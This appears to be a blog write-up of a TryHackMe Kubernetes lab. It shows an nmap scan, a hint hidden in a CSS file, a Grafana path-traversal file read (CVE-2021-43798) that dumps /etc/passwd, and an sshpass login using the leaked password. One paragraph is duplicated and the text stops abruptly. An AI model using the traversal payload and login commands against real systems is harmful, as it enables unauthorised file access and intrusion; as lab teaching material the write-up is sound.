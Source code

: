 ```yaml
---
author:
  name: "chxmxii_"
date: 2023-08-11
linktitle: 
tags:
 - devsecops
type:
- post
- posts
title: Kubernetes for everyone
weight: 10
series:
- Hugo 101
---
```

Hola, a friend of mine thought it'd be cool for me to check out this room on the THM platform since they know I'm really into Kubernetes and security. I thought it sounded like a fun idea, so I jumped right in!
![](/files/k8s.png#center)
> Room link: https://tryhackme.com/jr/kubernetesforyouly 
---
Okay, so I kicked things off by giving the IP address a scan, hoping to stumble upon something cool or significant. And you know what? My instincts were right on the money – I actually discovered two apps listening on ports 5000 and 3000!
+ ```bash
  ┌──(kali㉿kali)-[~]
  └─$ nmap -F 10.10.55.59
  Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-16 11:07 EDT
  Nmap scan report for 10.10.55.59
  Host is up (0.16s latency).
  Not shown: 96 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  111/tcp  open  rpcbind
  3000/tcp open  ppp
  5000/tcp open  upnp

  Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
  ```
I excitedly launched my web browser and entered the "<ip>:5000". And guess what? I came across this super fun game called "Etch A Sketch"!

+ ![](/files/sketch.png#center)

However, during my search, I stumbled upon the 'main.css' file. To my surprise, I discovered a Pastebin link within it. Upon opening the link, I was greeted with a base32 encoded string.
But you know what really caught my attention? While I was looking around, I spotted something interesting in the 'main.css' file. It was a Pastebin link! Curiosity piqued, I followed the link and found a base32 encoded string waiting for me. Exciting stuff!
+ ```js
  @import url("https://fonts.googleapis.com/css2?family=Bowlby+One+SC&display=swap");
  /* @import url("https://pastebin.com/cPs69B0y"); */
  @import url("https://fonts.googleapis.com/css2?family=Vollkorn:wght@500&display=swap");
  ```
![](/files/b32.png#center)
After decoding the string, it revealed the word `vagrant`,which led us to discover the user we were searching for.
Curious about the other app running on port 3000, I decided to take a closer look. It turned out to be Grafana, a monitoring tool running version 8.3. After some Googling, I stumbled upon a CVE-2021-43798 that pointed towards a Local File Inclusion (LFI) vulnerability. 
> https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/

+ ```bash
  ┌──(kali㉿kali)-[~]
  └─$ curl --path-as-is 10.10.126.15:3000/public/plugins/alertmanager/../../../../../../../../etc/passwd
  root:x:0:0:root:/root:/bin/ash
  bin:x:1:1:bin:/bin:/sbin/nologin
  daemon:x:2:2:daemon:/sbin:/sbin/nologin
  adm:x:3:4:adm:/var/adm:/sbin/nologin
  lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
  sync:x:5:0:sync:/sbin:/bin/sync
  shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
  halt:x:7:0:halt:/sbin:/sbin/halt
  mail:x:8:12:mail:/var/mail:/sbin/nologin
  news:x:9:13:news:/usr/lib/news:/sbin/nologin
  uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
  operator:x:11:0:operator:/root:/sbin/nologin
  man:x:13:15:man:/usr/man:/sbin/nologin
  postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
  cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
  ftp:x:21:21::/var/lib/ftp:/sbin/nologin
  sshd:x:22:22:sshd:/dev/null:/sbin/nologin
  at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
  squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
  xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
  games:x:35:35:games:/usr/games:/sbin/nologin
  cyrus:x:85:12::/usr/cyrus:/sbin/nologin
  vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
  ntp:x:123:123:NTP:/var/empty:/sbin/nologin
  smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
  guest:x:405:100:guest:/dev/null:/sbin/nologin
  nobody:x:65534:65534:nobody:/:/sbin/nologin
  grafana:x:472:0:hereiamatctf907:/home/grafana:/sbin/nologin
  ```
And voilà! We struck gold and managed to uncover the password. lets do the SSH now!
+ ```bash
  ┌──(kali㉿kali)-[~]
  └─$ sshpass -p hereiamatctf907 ssh -o StrictHostKeyChecking=no vagrant@10.10.126.15
  ```
#### Your Secret Crush
switch root and run the following command to list secrets
dd